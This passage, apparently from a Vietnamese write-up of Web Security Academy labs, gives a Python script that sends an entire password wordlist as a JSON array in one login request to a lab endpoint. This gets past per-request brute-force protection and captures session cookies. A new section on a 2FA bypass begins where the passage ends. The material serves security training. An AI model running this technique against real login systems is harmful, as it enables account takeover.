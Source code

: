 ![Untitled](writeup-media/Untitled%201.png)

Thay vì gửi 1 password 1 lần, ta có thể gửi cả wordlist password trong 1 request với json

```python
import requests

url = "https://ac5d1fd61fbd683dc0ab0164006600cc.web-security-academy.net/login"

status_code = requests.get(url=url).status_code
if status_code != 200:
    print(f'Status code: {status_code}')
    exit(status_code)

data = {
    'username': 'carlos',
    'password': open('password.txt').read().splitlines()
}

s = requests.session()
res = s.post(url=url, json=data, allow_redirects=True)
with open('res.html', 'wb') as file:
    file.write(res.content)
print(s.cookies.get_dict())
```

## Multi-factor

### **2FA simple bypass**
